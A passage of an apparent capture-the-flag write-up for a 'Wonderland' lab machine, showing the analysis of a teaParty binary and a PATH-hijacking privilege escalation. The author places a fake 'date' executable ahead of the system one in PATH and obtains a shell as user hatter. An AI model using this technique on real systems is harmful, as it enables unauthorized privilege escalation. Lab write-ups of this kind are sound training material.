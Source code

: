 Probably by Sat, 14 Oct 2023 12:55:10 +0000
Ask very nicely, and I will give you some tea while you wait for him
```

### TeaParty

```
file teaParty   
teaParty: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=75a832557e341d3f65157c22fafd6d6ed7413474, not stripped
```

```
$ objdump -d teaParty > decompile_teaParty
```

Analyzed the Assembly output with ghidra and I realised that the elf actually does literally nothing. The segmentation fault in nothing more that a print as well. very funny

<img src="images/ghidra.png">

Also the program is calling system executables

```
rabbit@wonderland:/$ which echo
/bin/echo
rabbit@wonderland:/$ which date
/bin/date
rabbit@wonderland:/$ ls -la /bin/date 
-rwxr-xr-x 1 root root 100568 Jan 18  2018 /bin/date
rabbit@wonderland:/$ ls -la /bin/echo 
-rwxr-xr-x 1 root root 35000 Jan 18  2018 /bin/echo
```

I cannot write to any of these but maybe I can change my path, also the program is not specifing what date file it is calling. 

We changed the path and an executable file date that will spawn a shell.

```
rabbit@wonderland:/$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
```

```

rabbit@wonderland:/home/rabbit$ chmod +x date 
rabbit@wonderland:/home/rabbit$ echo $PATH 
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
rabbit@wonderland:/home/rabbit$ export PATH=$(pwd):$PATH
rabbit@wonderland:/home/rabbit$ echo $PATH
/home/rabbit:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ whoami
hatter
hatter@wonderland:/home/rabbit$ 
